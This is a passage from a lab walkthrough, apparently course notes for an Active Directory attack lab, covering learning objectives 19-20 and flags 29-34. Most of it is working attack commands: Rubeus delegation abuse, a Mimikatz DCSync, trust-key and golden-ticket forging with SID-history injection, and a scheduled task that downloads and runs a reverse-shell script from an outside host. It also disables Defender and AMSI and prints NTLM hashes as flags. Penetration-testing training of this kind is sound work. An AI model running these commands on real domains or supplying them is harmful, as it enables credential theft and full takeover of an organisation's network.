- abuse delegation of dcorp-adminsrv$ using Rubeus (Note: use the /altservice parameter to include LDAP for DCSync attack)
```
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96 /impersonateuser:Administrator /msdsspn:"time/dcorp-dc.dollarcorp.moneycorp.LOCAL" /altservice:ldap /ptt
```



- Run the DCSync attack
```
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

***
## **FLAG#29:** Value of msds-allowedtodelegate to attribute of dcorp-adnmisrv:
{TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL, TIME/dcorp-DC}

## **FLAG#30:** Alternate service accessed on dcorp-dc by abusing Constrained Delegation on dcorp-adminsrv:
LDAP
***
# **LEARNING OBJECTIVE 19:**
- Using DA access to dollarcorp.moneycorp.local,escalate privileges to Enterprise Admins or DA to the Parent Domain, moneycorp.local using the domain trust key.
- - -
- We need to grab the trust key for the trust between dollarcorp and moneycorp.
- We can get it via mimikatz as a DA
```
# Over-Passthehash to get DA privs:
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'

# DA prived Powershell:
PS C:\ad\tools> Enter-PSSession $sess
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> exit
PS C:\ad\tools> Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
PS C:\ad\tools> Enter-PSSession $sess
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```


- Trust key: 2560e1df6b6dfb4dfba19b768fa1b038
- Create the inter-real TGT by running the below command on your machine:
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:2560e1df6b6dfb4dfba19b768fa1b038 /service:krbtgt /target:moneycorp.local /ticket:C:\ad\tools\kekeo_old\trust_tkt.kirbi"'
```

- Now create a TGS for a service (CIFS) in the parent domain (moneycorp.local):
```
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

- Present the TGS to the target service:
```
.\kirbikator.exe ls .\CIFS.mcorp-dc.moneycorp.local.kirbi
```

- Now try to access the target service (CIFS) - success means escalation to the parent DA:



## Rubeus method:
- get the newest version from https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe
```
.\Rubeus.exe /asktgs /ticket:C:\ad\tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
```



- now try to access the filesystem on mcorp-dc:

***
## **FLAG#31:** SID history injected to escalate to Enterprise Admins:
S-1-5-21-280534878-1496970234-700767426-519
***
# **LEARNING OBJECTIVE 20:**
- Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain (moneycorp.local) using dollarcorp's krbtgt hash:
***
- We have the krbtgt hash of dollarcorp from earlier. Let's create the inter-realm TGT using a Golden Ticket from svcadmin DA powershell session:
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:
S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd7760
3da26796f35 /ticket:C:\Ad\tools\krbtgt_tkt.kirbi"'
```


- Now inject the ticket with Mimikatz:
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\ad\tools\krbtgt_tkt.kirbi"'
```


- catch a reverse shell on mcorp-dc
- run listener in other window
- Edit Invoke-PowerShellTcp to execute the function in the script...save as Invoke-PowerShellTcpEx.ps1
- Host it on webserver 
- Schedule tasks on the mcorp-dc
```
schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT AUTHORITY\SYSTEM" /TN "STCheck537" /TR "powershell.exe -c 'ie
x (New-Object Net.WebClient).DownloadString(''http://172.16.100.37/Invoke-PowerShellTcpEx.ps1''')'"

schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck537"
```

- Disable AMSI on the Reverse Shell
- Download and execute Invoke-Mimikatz in memory
```
PS C:\Windows\system32> Set-MpPreference -disableRealtimeMonitoring $true -verbose
PS C:\Windows\system32> Set-MpPreference -disableIOAVProtection $true -verbose
PS C:\Windows\system32> iex (New-Object Net.WebClient).downloadString('http://172.16.100.37/Invoke-Mimikatz.ps1')
PS C:\Windows\system32> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```


***
## **FLAG#32:** NTLM hash of krbtgt of moneycorp.local:
ed277dd7a7a8a88d9ea0de839e454690
## **FLAG#33:** NTLM hash of enterprise administrator - Administrator:
71d04f9d50ceb1f64de7a09f23e6dc4c
## **FLAG#34:** Privileges on mcorp-dc after executing scheduled task:
NT AUTHORITY\SYSTEM
***


